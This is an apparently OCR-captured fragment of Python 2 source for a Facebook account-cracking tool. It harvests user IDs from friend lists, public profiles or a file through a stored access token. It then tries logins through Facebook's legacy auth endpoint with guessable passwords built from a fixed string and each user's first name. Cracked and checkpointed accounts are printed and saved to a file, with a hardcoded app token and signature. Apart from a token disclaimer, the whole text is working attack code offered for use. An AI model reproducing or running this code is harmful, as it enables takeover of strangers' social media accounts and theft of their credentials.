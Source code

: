 print"\033[1;96m \033[1;91mIt seems that your account has a checkpoint"		os.system('rm -rf login.txt')		time.sleep(1)		login()	except requests.exceptions.ConnectionError:		print"\033[1;96m \x1b[1;91mThere is no internet connection"		keluar()	os.system("clear")	print logo	print " THESE COMMANDS ARE ONLY WORKING ON DATA NOT ON WIFI "	print 42*"\033[1;96m="	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m "	print "\033[1;96m[\033[1;97m \033[1;96m]\033[1;93m ID \033[1;91m: \033[1;92m"+id+"\x1b[1;97m "	print 42*"\033[1;96m="	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start CLONING WITH DJ"	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit "	pilih()def pilih():	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")	if unikers =="":		print "\033[1;96m \x1b[1;91mFill in correctly"		pilih()	elif unikers =="1":		super()	elif unikers =="0":		jalan('Token Removed')		os.system('rm -rf login.txt')		keluar()	else:		print "\033[1;96m \x1b[1;91mFill in correctly"		pilih()def super():	global toket	os.system('clear')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;96m \x1b[1;91mToken invalid"		os.system('rm -rf login.txt')		time.sleep(1)		login()	os.system('clear')	print logo	print 42*"\033[1;96m="	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ACCOUNT"	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"	pilih_super()def pilih_super():	peak = raw_input("\n\033[1;97m >>> \033[1;97m")	if peak =="":		print "\033[1;96m \x1b[1;91mFill in correctly"		pilih_super()	elif peak =="1":		os.system('clear')		print logo		print 42*"\033[1;96m="		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)		z = json.loads(r.text)		for s in z['data']:			id.append(s['id'])	elif peak =="2":		os.system('clear')		print logo		print 42*"\033[1;96m="		idt = raw_input("\033[1;96m \033[1;93mEnter ID \033[1;91m: \033[1;97m")		try:			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)			op = json.loads(jok.text)			print"\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mName\033[1;91m :\033[1;97m "+op["name"]		except KeyError:			print"\033[1;96m \x1b[1;91mID Not Found!"			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")			super()		jalan('\033[1;96m \033[1;93mGetting IDs \033[1;97m...')		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)		z = json.loads(r.text)		for i in z['data']:			id.append(i['id'])	elif peak =="3":		os.system('clear')		print logo		print 42*"\033[1;96m="		try:			idlist = raw_input('\x1b[1;96m \x1b[1;93mEnter File Path \x1b[1;91m: \x1b[1;97m')			for line in open(idlist,'r').readlines():				id.append(line.strip())		except IOError:			print '\x1b[1;96m \x1b[1;91mFile Not Found'			raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')			super()	elif peak =="0":		menu()	else:		print "\033[1;96m \x1b[1;91mFill in correctly"		pilih_super()		print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')	titik = ['. ','.. ','... ']	for o in titik:		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)	print	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z . WAMIMG DONT USE THESE COMMANDS FOR ILLEGALL PURPOSE')	print 42*"\033[1;96m="					def main(arg):		global cekpoint,oks		user = arg		try:			os.mkdir('out')		except OSError:			pass		try:			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)			b = json.loads(a.text)			pass1 = ('786786')			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")			q = json.load(data)			if 'access_token' in q:				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1				oks.append(user+pass1)			else:				if 'www.facebook.com' in q["error_msg"]:					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1					cek = open("out/checkpoint.txt", "a")					cek.write(user+"|"+pass1+"\n")					cek.close()					cekpoint.append(user+pass1)				else:					pass2 = b['first_name']+'12345'					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")					q = json.load(data)					if 'access_token' in q:						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2						oks.append(user+pass2)					else:						if 'www.facebook.com' in q["error_msg"]:							print '\x1b[1;96m[\x1b[1;93mCHECKPOINT\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2							cek = open("out/checkpoint.txt", "a")							cek.write(user+"|"+pass2+"\n")							cek.close()							cekpoint.append(user+pass2)						else:							pass3 = b['first_name'] + '123'							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")							q = json.load(data)							if 'access_token' in q:								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3								oks.append(user+pass3)